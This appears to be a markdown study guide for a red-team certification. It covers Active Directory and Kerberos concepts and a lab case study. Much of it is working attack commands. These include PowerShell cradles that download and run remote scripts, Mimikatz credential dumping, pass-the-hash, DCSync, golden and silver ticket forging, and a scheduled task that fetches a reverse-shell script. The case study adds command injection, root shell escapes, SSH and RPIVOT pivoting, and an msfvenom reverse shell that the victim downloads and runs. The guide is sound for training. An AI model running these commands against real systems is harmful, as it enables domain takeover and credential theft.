

# CRTA : Certified Red Team Analyste


## Sommaire

- [CRTA : Certified Red Team Analyste](#crta--certified-red-team-analyste)
  - [Bastion-Host (Jump-Server)](#bastion-host-jump-server)
  - [Automation Server](#automation-server)
  - [Active Directory](#active-directory)
  - [Active Directory Forests/Domain](#active-directory-forestsdomain)
  - [Active Directory Objects](#active-directory-objects)
  - [Domain Controller](#domain-controller)
  - [Kerberos authentication](#kerberos-authentication)
  - [Kerberos Delegation](#kerberos-delegation)
  - [Types of Kerberos Delegation](#types-of-kerberos-delegation)
  - [Domain Trust](#domain-trust)
  - [Authorization in Active Directory](#authorization-in-active-directory)
  - [Technologies Exploitation in Red Teaming](#technologies-exploitation-in-red-teaming)
    - [Web Technology](#web-technology)
    - [Network Technology](#network-technology)
    - [Cloud Technology](#cloud-technology)
    - [Physical Red Teaming](#physical-red-teaming)
    - [Wireless Attacks](#wireless-attacks)
  - [Red Team Lab Setup](#red-team-lab-setup)
  - [Red Team Internal Environment](#red-team-internal-environment)
    - [Introduction](#introduction)
  - [PowerView Enumeration](#powerview-enumeration)
    - [Get current domain](#get-current-domain)
    - [Retrieve Current SID and Domain Controller](#retrieve-current-sid-and-domain-controller)
    - [Retrieve a list of users in the current domain](#retrieve-a-list-of-users-in-the-current-domain)
    - [Retrieve a list of computers in the current domain](#retrieve-a-list-of-computers-in-the-current-domain)
    - [List all domain groups in the current domain](#list-all-domain-groups-in-the-current-domain)
    - [Enumerate privilege domain group members and local administrators group members](#enumerate-privilege-domain-group-members-and-local-administrators-group-members)
    - [ACL Enumeration, get the ACLs associated with an entity](#acl-enumeration-get-the-acls-associated-with-an-entity)
    - [Unique and interesting ACL Scanning](#unique-and-interesting-acl-scanning)
    - [Enumerate Domain Trusts](#enumerate-domain-trusts)
    - [Enumerate all domain in a Forest](#enumerate-all-domain-in-a-forest)
    - [Find computer sessions where current user has local admin access](#find-computer-sessions-where-current-user-has-local-admin-access)
  - [Local Privilege Escalation](#local-privilege-escalation)
  - [Admin Reconnaissance](#admin-reconnaissance)
  - [Kerberoasting](#kerberoasting)
  - [Lateral Movement](#lateral-movement)
  - [PowerShell Remoting](#powershell-remoting)
  - [Mimikatz PowerShell Script](#mimikatz-powershell-script)
  - [DCSYNC Attack](#dcsync-attack)
  - [Unconstrained Delegation](#unconstrained-delegation)
  - [Persistence & Exfiltrate](#persistence--exfiltrate)
  - [Golden Ticket Attack](#golden-ticket-attack)
    - [Command Explanation](#command-explanation)
  - [Silver Ticket Attack](#silver-ticket-attack)
    - [Command Explanation](#command-explanation-1)
    - [Command Execution using Silver Ticket](#command-execution-using-silver-ticket)
  - [Case Study](#case-study)
    - [Initial Access](#initial-access)
    - [Enumeration](#enumeration)
  - [Pivoting and Lateral Movement](#pivoting-and-lateral-movement)
    - [SSH Pivoting](#ssh-pivoting)
    - [RPIVOT Pivoting](#rpivot-pivoting)
    - [Internal Access and Post-Exploitation](#internal-access-and-post-exploitation)

### Bastion-Host (Jump-Server):

- A bastion Host is a special-purpose computer on networks specially designed and configured to withstand attack.
- The computer generally host a single application, for example a proxy-server, and all other services are removed or limited to reduce the threat to the computer.


### Automation Server:

- Automation servers are crucial aspect of the software development workflow.
- It help automated thr parts of software development related to building, testing and deploying facilitating continuous delivery.
- Some of the examples are : 
    - Jenkins Server
    - TeamCity
    - Bamboo 

### Active Directory:

- As the same suggests, it is a directory (or database) which:
    - Manages the ressourcces of organisation like (users, computers, shares, etc)
    - Provide Access rules that govern the relationships between these resources. 
    - Store information about objects on the network and makes it available to users & admin.
- Provides centralized management af all the organization virtual assets.


### Active Directory Forests/Domain:

- Forest is a single instance of Active Directory.
    - It is basically a collection of Domains Controllers that trust one another.
- Domains can be thought as containers within the scope of a Forest.
- Organizational Units (OU's) are logical grouping of users, computers and other resources.
- Groups:
    - Collection of users or other groups 
    - Privileged, non-privileged 


### Active Directory Objects:

- The physical entities that make up an organized network
- Domain Users: 
    - User account that are allowed to authenticate to machines/servers in the domain 
- Domain Groups (Global Groups):
    - It can be used to assign permissions to access resources in any domain.
- Domain Computers:
    - Machines that are connected to a domain and hence become a member of a domain. 

### Domain Controller:

- Server located centrally that responds to security authentication requests and manages various resources like computers, users, groups etc.
- Group Policy Objects (GPOs):
    - Collection of policies that are applied to a set of user, domain, domain object etc.
- Ticket Granting Ticket (TGT):
    - Ticket used specifically for authentication.
- Ticket Granting Service (TGS):
    - Ticket used specifically for authorization.


### Kerberos authentication: 

- In the Active Directory environment, all the queries and authentication process is done throught tickets. Hence, no passwords are every travel to network. 
- A ticket is a form of authentication and authorization token and can be categorized as follows: 
    - Ticket Granting Ticket (TGT) for Authentication.
    - Ticket Granting Service (TGS) for Authorization.
- The tickets (TGT and TGS) are stored in memory and can be extracted for abusing purpose as these tickets represent user credentials. 
- The TGS can be used for accessing a specific service af a server in the domain. 

#### Kerberos Authentication Process - STEP 1 
 

#### Kerberos Authentication Process - STEP 2 


#### Kerberos Authentication Process - STEP 3 


#### Kerberos Authentication Process - STEP 4 


#### Kerberos Authentication Process - ALL   
    

### Kerberos Delegation:

- It allow an authenticated domain user credentials to be re-used to access resources hosted on a different server in a Domain.
- This utility is useful in multi-tier application or architecture.
- For Example: A domain user authenticates to a Application Derver and the Application Server makes a call to the Database Server. The Application Server can request access to resources of the Database Server as the domain user (user is impersonated) and not as application Server service account.
- The service account for Application Server must be trusted for delegation to be able to make requests as an authenticated domain user.

  

### Types of Kerberos Delegation: 

- Unconstrained Delegation: It allows the Application Server to request access to ANY service on any server in the domain. 
- Unconstrained Delegation is by-default enabled on Domain Controllers.
- Constrained Delegation: It allow the Application Server to request access to ONLY specified services on specific servers.

### Domain Trust: 

- Trust represents relationship between two domains or forest which allows the users/services on one domain or forest to access resources in the other domain or forest.
- Types of Trust: 
    - Parent-Child trust relationship 
    - Forest to Forest Trust relationship
    - Tree-root Trust relationship
- Trust identifies the entities in a domain or Forest.

  


### Authorization in Active Directory: 

- Authorization means if a user is specifically permitted or denied to access a resource in the AD network.
- AD validates access to a resource based on thr user's security token.
- This security token is the procedure of checking whether a user is a part of Access Control List (ACL) for the requested object.
- Security token comprises of : 
    - User Rights
    - Group SID
    - Individual SID
- The primary means through which a security principal is identified when trying to access any securable object is an identifier called security identifier (SID) which is unique for each user or security group.




## Technologies Exploitation in Red Teaming

### Web Technology:

- Knowledge of OWASP Top 10 Web Vulnerabilities should be known.
- We may also encounter scenarios where we need to perform custom Web Exploitation ( Chaining of Vulnerabilities)
- Identification of Target’s environment specifically for identification of Web Technologies are needed.

### Network Technology:

- Understanding of Network devices like routers,switches, servers, computers etc and network protocols in use at enterprise etc. 
- Mapping of users with their allotted systems, internal network architecture must be clear before the attacking phase.
- We will be hunting for open TCP/UDP ports having some remote access services,  unpatched/vulnerable services, to maintain initial foothold.
- Latest/unstable software accessible over web or network have higher chance of in-built vulnerabilities.

### Cloud Technology:

- Cloud Technology have on-demand availability with very feasible computing resources and hence are first choice of organizations.
- Cloud services like Amazon Web Services (AWS), Microsoft Azure and Google Cloud Platform (GCP) are deployed in large scale demanding skilled administrators.
- A tiny mistake/mis-configuration from administrators leave a big open door for attackers for example Identity and Access Management (IAM) of employees. 
- Organization on-premises network is directly connected with cloud services (door to internal network)

### Physical Red Teaming: 

- Instead of relying on tool-based approaches, a Red Team develops unique attack situations leveraging manual and automated procedures
- Red Teams are trained to elude detection from one or more of the following security devices:
    - CCTVs (closed circuit television cameras)
    - Keypad entry locks
    - Wireless intercoms/video intercoms
    - Motion/sensor detects
    - Single or double deadbolts
    - Door and window locks
    - Steel security doors
    - Remote entry gates

### Wireless Attacks:

- The massive rise in cyberattacks via public Wi-Fi networks, open enterprise Wi-Fi campus connected to internal network possess a huge threat.
- Common Wireless Vulnerabilities:
    - Use of Default SSIDs and Passwords
    - Downgrading the wireless security protocol to WEP and to older WPA version. 
    - WPA2 Krack vulnerability  
    - Fake WiFi Access Points, Evil Twins, and Man in the Middle Attacks
    - Packet Sniffing
    - MAC spoofing

## Red Team Lab Setup: 


### Red Team Internal Environment

#### Introduction 

- Tools like nmap, netcat or built-in utilities like PowerShell can also be used for enumeration purposes. 
- Below is the command for scanning open TCP ports from a PowerShell Query.

```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null  
```

- Below command will scan IP addresses 10.1.1.1-5 and some specific common TCP ports.

```powershell
 1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}
```

- Invoking a PowerShell Module 
- Scripts with extension “*.ps1”, “*.psm1”, “*.psd1” etc can be invoked in a specific 
- PowerShell session as follows : 

```powershell 
Import-Module <Module_Name.ps1>
```

- However a PowerShell script can be invoked in a unique way called “dot sourcing a 
script” 

```powershell
.\<Script_Name>.ps1
```

- PowerShell in-memory Download and Execute cradle :  

```powershell
iex (iwr 'http://192.168.2.2/file.ps1')

$down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1") 
$read = $down.GetResponse() 
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()


$file=New-Object -ComObject 
Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.s
end();iex $file.responseText

iex (New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

$ie=New-Object -ComObject 
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘); 
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response 
```

### PowerView Enumeration

- We will use PowerView for enumeration.

#### Get current domain
```powershell
Get-NetDomain
Get-NetDomain –Domain cyberwarfare.corp
```

#### Retrieve Current SID and Domain Controller
```powershell
Get-NetDomainController –Domain cyberwarfare.corp
Get-DomainSID
```

#### Retrieve a list of users in the current domain
```powershell
Get-NetUser
Get-NetUser –UserName emp1
```

#### Retrieve a list of computers in the current domain
```powershell
Get-NetComputer
Get-NetComputer – FullData
Get-NetComputer –OperatingSystem “Windows Server 2016 Standard”
```

#### List all domain groups in the current domain
```powershell
Get-NetGroup
Get-NetGroup –FullData
Get-NetGroup –Domain cyberwarfare.corp
```

#### Enumerate privilege domain group members and local administrators group members
```powershell
Get-NetGroupMember –GroupName “Domain Admins” -verbose
Get-NetLocalGroup –ComputerName DC-01  -ListGroups
```

#### ACL Enumeration, get the ACLs associated with an entity
```powershell
Get-ObjectAcl -SamAccountName <Domain_User> –ResolveGUIDs
```

#### Unique and interesting ACL Scanning
```powershell
Invoke-ACLScanner –ResolveGUIDs
```

#### Enumerate Domain Trusts
```powershell
Get-NetDomainTrust
Get-NetDomainTrust –Domain cyberwarfare.corp
```

#### Enumerate all domain in a Forest
```powershell
Get-NetForestDomain –Verbose
Get-NetForest -Verbose
```

#### Find computer sessions where current user has local admin access
```powershell
Find-LocalAdminAccess -Verbose
```

### Local Privilege Escalation

- An Adversary tries to escalate privileges from low to high (Administrator, root)

- There are various vulnerabilities that can be abused on Windows/Linux environment :

  - https://attack.mitre.org/techniques/T1548/
  - https://attack.mitre.org/techniques/T1134
  - https://attack.mitre.org/techniques/T1547
  - https://attack.mitre.org/techniques/T1037
  - https://attack.mitre.org/techniques/T1543
  - https://attack.mitre.org/techniques/T1546
  - https://attack.mitre.org/techniques/T1068
  - https://attack.mitre.org/techniques/T1055
  - https://attack.mitre.org/techniques/T1053
  - https.://attack.mitre.org/techniques/T1078

- PowerUP can be used to escalate locally in a Windows environment.

```powershell
.\PowerUP.ps1
Invoke-AllChecks -Verbose
```

- List services which can be configured : 

```powershell
Get-ModifiableService -Verbose
```

- Unquoted Service Path : 

```powershell
Get-ServiceUnquoted -Verbose
```

### Admin Reconnaissance

- With enough privileges on the Local machine the Adversary will try to perform where Admin users are logged-on.

- Service accounts generally have Administrator privileges in a machine.

- Well-known attacks like Kerberoasting can be used to brute-force service account credentials.

- We need to find users where a high-privilege domain user like Domain Admin has sessions, this can be done using “Invoke-UserHunter” query.

### Kerberoasting

- We send all the required details to DC to get a valid TGT, this TGT can be used to get a TGS (for authorization) to access any specific service.

- Upon getting the TGS (encrypted with target service account hash), one can export it and then brute-force it against a password dictionary.

- Also, Administrator generally do not focus on changing the credentials of non-machine service account, we end up getting the clear-text credentials ☺

- In-short, it is the offline brute-forcing of service account credentials.

- Find User accounts which are used as service accounts : 

```powershell
Get-NetUser –SPN
```

- We request the TGS aka service ticket : 

```powershell
Request-SPNTicket
```

- Check ticket in-memory:

```powershell
klist
```

- Export ticket using Mimikatz : 

```powershell
Invoke-Mimikatz -Command 
"kerberos::list /export"
```

- Now, Crack the Service account password using tgsrepcrack.py

```python
python.exe .\tgsrepcrack.py .\passwords.txt ‘.\Ticket.kirbi'
```

### Lateral Movement

- The Adversary will try to move laterally in the environment in search for some critical servers/assets.

- Some of the techniques that can be used are : 
  - PowerShell Remoting
  - Windows Management Instrumentation (WMI)
  - Invoke-Mimikatz.ps1 etc

- It is advised to choose a method which is stealth and leave almost no footprints on ANY machines the Adversary is targeting.

### PowerShell Remoting

- It used WinRM protocol and runs by-default on TCP ports 5985 (HTTP) and 5986 (HTTPS)

- It is a recommended way to manage Windows core servers.

- This comes enabled by-default from Windows Server 2012.

- Adversary uses this utility to connect to remote computers/servers and execute commands upon achieving high privileges.

- Example : Invoke-Command, New-PSSession, Enter-PSSession

- Configuration is easy “Enable-PSRemoting -SkipNetworkProfileCheck -Verbose -Force” as administrator.

- It is used to run commands and scripts on : 
  - Windows Servers/workstations
  - Linux machines too (PowerShell is Open-Source project)

- Example commands : 

```powershell
$session = New-PSSession –Computername Windows-Server
Invoke-Command –Session $session –ScriptBlock {Whoami;hostname}
Enter-Pssession –Session $session -verbose
```

### Mimikatz PowerShell Script

- Used for dumping credentials, Kerberos tickets etc all in-memory.

- Run with Administrative privileges for performing credential dumping operations.

- Ex : (As Administrator)

```powershell
Invoke-Mimikatz -DumpCreds -Verbose
Invoke-Mimikatz –DumpCreds –ComputerName @(“comp1”,”comp2”)
```

- Most famous Pass-the-hash attack:

```powershell
Invoke-Mimikatz -Command "sekurlsa::pth /user:Administrator /domain:cyberwarfare.corp/hash: /run:powershell.exe"
```

### DCSYNC Attack

- In order to extract the domain user account/service account/machine account credentials without code execution on the Domain Controller the Adversary used DCSYNC Attack.

- Specific set of privileges are required to perform remote hash retrievable without code execution.
  - Get-ReplicationChanges
  - Get-ReplicationChangesAll
  - Get-ReplicationChnages-in-a-filtered-set

- Command : 

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\krbtgt"
```

### Unconstrained Delegation

- In case when constrained delegation is enabled, DC places user’s TGT inside TGS. When the user presents it to server having unconstrained delegation enabled, that TGT is extracted from the TGS and stored in-memory.

- Adversary can export that TGT to access any other resource as that user. Now imagine the consequences when we get the TGT of a Domain Admin.

- List computers having Unconstrained Delegation Enabled : 

```powershell
Get-NetComputer –unconstrained -verbose
```

- Unconstrained Delegation Abuse Steps : 
  - Adversary can compromise the Server where Unconstrained Delegation is enabled.
  - Using Social engineering an adversary can trick the domain admin or any privileged user to connect to the already compromised server.
  - Extract the Domain Admin TGT : 

```powershell
Invoke-Mimikatz –Command "sekurlsa::tickets /export"
```

  - Re-use the ticket to perform other operations as Domain Admin : 

```powershell
Invoke-Mimikatz –Command "kerberos::ptt ticket.kirbi"
```

  - Run DCSYNC Attack : 

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\krbtgt"
```

### Persistence & Exfiltrate

- Once critical assets are identified with enough privileges, Adversaries will try to establish long-term persistence and try to exfiltrate data stealthly.

- For Data Exfiltration adversary can use various protocols to remain under the hood.

- Some of the data exfiltration techniques are mentioned below :*
  - https://attack.mitre.org/techniques/T1020
  - https://attack.mitre.org/techniques/T1048
  - https://attack.mitre.org/techniques/T1052
  - https://attack.mitre.org/techniques/T1537

### Golden Ticket Attack

- Golden ticket is signed and encrypted with the “krbtgt” account hash.

- The krbtgt account hash can be use to impersonate any user with any privileges.

- Requirements :
  - Domain SID
  - Krbtgt hash
  - Domain name
  - SIDS (in Cross-Forest Attacks)

- No AS-REQ or AS-REP communication exists with the DC. Golden Ticket is sent to the DC to get a TGS.
  - Present TGT, request TGS (TGS-REQ)
  - TGS response (receive TGS)
  - Client using the allotted TGS are authenticated as well as authorized to access DB server
  - Other optional validation requests with the DC is performed.

- Extract krbtgt account hash :

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\krbtgt"
```

- Domain SID : 

```powershell
whoami /all (of a domain user)
```

- Adversary Forge Golden ticket in a Domain as follows : 

```powershell
Invoke-Mimikatz -Command "kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxx-yyyyy-xxxxx /krbtgt:xxxxxxxxxxxxxxxxxx /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

#### Command Explanation

| Command | Explanation |
| --- | --- |
| kerberos::golden | Module Name |
| /User:Administrator | Username for which the TGT is generated |
| /domain:cyberwarfare.corp | Current Domain Fully Qualified Domain Name |
| /sid:xxx | SID value of the domain |
| /krbtgt:yyyyy | Krbtgt user account hash |
| /ptt | Injects the ticket in current session (memory) |
| /ticket | Save the ticket in .kirbi format |
| /startoffset:0 | Set ticket time to the latest (current) |
| /endin:600 | 600 sec (10 minutes) by-default 10 Years |
| /renewmax:10080 | 7 Days (10080 sec) |

### Silver Ticket Attack

- Silver ticket is signed and encrypted with the target service account hash.

- Represents a valid TGS (for authorization)

- Requirements :
  - Domain SID
  - Service account /Machine Account hash
  - Domain name
  - SIDS (in Cross-Forest Attacks)
- Extract krbtgt account hash : 
- Domain SID : 

```powershell
whoami /all (of a domain user)
```

- Adversary Forge Golden ticket in a Domain as follows : 

```powershell
Invoke-Mimikatz -Command "lsadump::dcsync /user:cyberwarfare\enterprise-dc$" 
Invoke-Mimikatz -Command "kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-yyyyyyyy-zzzzzzzzzz-xxxxxx /target:enterprise-dc.cyberwarfare.corp /service:cifs /rc4:<HASH> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
```

#### Command Explanation

| Command | Explanation |
| --- | --- |
| kerberos::golden | Module Name |
| /User:Administrator | Username for which the TGT is generated |
| /domain:cyberwarfare.corp | Current Domain Fully Qualified Domain Name |
| /sid:xxx | SID value of the domain |
| /target:enterprise-dc.cyberwarfare.corp | Target Server FQDN |
| /ptt | Injects the ticket in current session (memory) |
| /service:cifs | Service SPN name for which TGS would be created |
| /startoffset:0 | Set ticket time to the latest (current) |
| /endin:600 | 600 sec (10 minutes) by-default 10 Years |
| /renewmax:10080 | 7 Days (10080 sec) |

#### Command Execution using Silver Ticket

- Adversaries create a silver ticket for HOST service which allows them to schedule a malicious task on the target :

- Schedule and execute a task on Remote Server : 

```powershell
Invoke-Mimikatz -Command "kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxxx-yyyy-zzzzz /target:exterprise-dc.cyberwarfare.corp /service:HOST /rc4:xxxxx /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"
schtasks /create /S enterprise-dc.cyberwarfare.corp /SC Weekly /RU "NT Authority\SYSTEM" /TN “lateral" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.1:8000/Invoke-PowerShellTcp.ps1'')'"
schtasks /Run /S enterprise-dc.cyberwarfare.corp /TN "STCheck"
```

## Case Study

### Initial Access

**Scope:**

*   VPN IP Range: `10.10.200.0/24`
*   External IP range in scope: `192.168.80.0/24`
*   Internal IP range in scope: `192.168.98.0/24`

**Scanning:**

```bash
nmap -sn 192.168.80.0/24
```

*   `192.168.80.1` is up
*   `192.168.80.10` is up

```bash
nmap -sC -sV 192.168.80.10
```

*   `21/tcp` ftp vsftpd 3.0.3 (Anonymous FTP login is Allowed)
*   `22/tcp` ssh OpenSSH 7.6p1
*   `80/tcp` http Apache httpd/2.4.29

**Exploitation:**

1.  Create an account on `http://192.168.80.10/index.php`.
2.  Intercept the request with BurpSuite and test for command injection in the email field.
3.  `EMAIL=ls` -> Works.
4.  `EMAIL=cat /etc/passwd` -> Works.
5.  Found credentials in the output:
    *   Username: `privilege`
    *   Password: `Admin@962`
6.  SSH into the machine:

    ```bash
    ssh privilege@192.168.80.10
    ```

### Enumeration

**Initial Foothold:**

*   `privilege@Linux1:~$`
*   No internet connection (`ping google.com` fails).

**Transferring Tools:**

1.  Start a Python HTTP server on the attacker machine to serve reconnaissance tools (`linpeas.sh`, `PowerView.ps1`, etc.).
2.  On the victim machine, download `linpeas.sh`:

    ```bash
    curl http://10.10.200.2:8000/linpeas.sh >> lin.sh
    chmod +x lin.sh
    ```

**Privilege Escalation (Manual):**

*   `sudo -l` shows `(ALL : ALL) ALL`.
*   `sudo su` to get a root shell.
*   Alternatively, `sudo vi` and then `:!/bin/bash` to get a root shell.

**Network Enumeration (Internal):**

*   `ip a` shows two interfaces:
    *   `ens160: 192.168.98.15/24`
    *   `ens192: 192.168.80.10/24`
*   Scan the internal network:

    ```bash
    nmap -sn 192.168.98.0/24
    ```

    *   `192.168.98.2` is up
    *   `192.168.98.15` is up
    *   `192.168.98.30` is up
*   Scan the discovered hosts:

    *   `nmap -sV -sC 192.168.98.2` (Likely a Domain Controller)
        *   `53/tcp` domain (Microsoft DNS)
        *   `88/tcp` kerberos-sec (Microsoft Windows Kerberos)
        *   `389/tcp` ldap (Microsoft Windows Active Directory LDAP, Domain: `warfare.corp0`)
    *   `nmap -sV -sC 192.168.98.30` (Likely a file server or workstation)
        *   `135/tcp` msrpc
        *   `139/tcp` netbios-ssn
        *   `445/tcp` microsoft-ds

**Credential Discovery:**

*   Found credentials in `.vnc_log`:
    *   user: `child\employee`
    *   Pass: `Doctor@963`
*   Found `places.sqlite` (Firefox history) in the user's home directory. `lin.sh` output also pointed to this.
*   `sqlite3 places.sqlite` and `select * from moz_bookmarks;` could reveal interesting information.

## Pivoting and Lateral Movement

This section details pivoting techniques for accessing internal networks and lateral movement methods.

### SSH Pivoting

SSH pivoting allows tunneling traffic through a compromised machine to reach otherwise inaccessible networks.

- **ProxyChains Configuration**:
  Modify the `/etc/proxychains.conf` configuration file.
  ```bash
  sudo nano /etc/proxychains.conf
  ```
  Ensure the following lines are present to use the SOCKS tunnel.
  ```
  socks5 127.0.0.1 9050
  socks4 127.0.0.1 9050
  ```

- **Creating the SSH Tunnel**:
  Create a dynamic SOCKS proxy on local port 9050 that relays traffic through the `privilege@192.168.80.10` machine.
  ```bash
  ssh -D 9050 privilege@192.168.80.10
  ```

- **Using ProxyChains**:
  In a new terminal, prefix commands with `proxychains` to route them through the tunnel.
  ```bash
  # A simple ping through proxychains may fail as ICMP is not proxied by default.
  proxychains ping 192.168.98.30

  # Test connectivity on a specific port (e.g., 445/SMB).
  proxychains nc 192.168.98.30 445

  # Scan the target's ports through the tunnel.
  proxychains nmap -sT 192.168.98.30
  ```

### RPIVOT Pivoting

RPIVOT is a reverse pivot tool, useful when the compromised machine cannot be reached directly from the attacker's network.

- **Setting up the RPIVOT Server (Attacker)**:
  The server listens for incoming client connections and relays traffic through a local proxy (like our SSH tunnel).
  ```bash
  python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
  ```

- **Running the RPIVOT Client (Victim)**:
  The client connects to the attacker's server.
  ```bash
  curl http://10.10.200.2/rpivot.zip
  python /rpivot/client.py --server-ip 10.10.200.2 --server-port 9980
  ```

- **Scanning through the RPIVOT Pivot**:
  Use `proxychains` to scan the internal network through the new route.
  ```bash
  proxychains nmap -sn 192.168.98.30
  proxychains nmap -sT 192.168.98.30
  ```

### Internal Access and Post-Exploitation

Once the pivot is established, these commands allow interaction with the internal network.

- **Using Impacket Tools**:
  Impacket is a collection of Python scripts for working with network protocols.
  ```bash
  # Activate the Python virtual environment
  source ~/.venv/bin/activate
  python3 -m pip install impacket

  # Use psexec.py to get a shell via SMB
  proxychains psexec.py 'child/john:passjohn@192.168.98.30'
  ```

- **Enumeration with CrackMapExec (CME)**:
  CME automates security assessment of large Active Directory networks.
  ```bash
  # Clone and install CME
  git clone https://github.com/byt3bl33d3r/CrackMapExec
  cd cme
  poetry install

  # Run SMB enumerations
  proxychains poetry run cme smb 192.168.98.30 -u employee -p 'password'
  proxychains poetry run cme smb 192.168.98.2 -u employee -p 'password'
  ```

- **Internal Reconnaissance Commands (Post-Access)**:
  Once a shell is obtained on an internal machine.
  ```bash
  whoami
  net user /dom
  net group /dom
  ping cdc.child.warfare.corp
  ```

- **Creating a Reverse Shell**:
  Generate a payload with `msfvenom`, host it, and execute it on the target.
  ```bash
  # Generate payload (attacker)
  msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.200.2 LPORT=9990 -f exe -o rev.exe

  # Start a listener (attacker)
  nc -nvlp 9990

  # Download and execute the payload (victim)
  iwr http://10.10.200.2:8000/rev.exe -OutFile C:\Users\john\Downloads\rev.exe
  C:\Users\john\Downloads\rev.exe
  ```

- **Additional Active Directory Enumeration**:
  ```bash
  net user john /dom
  net user corphead /dom
  net localgroup Administrators
  ```
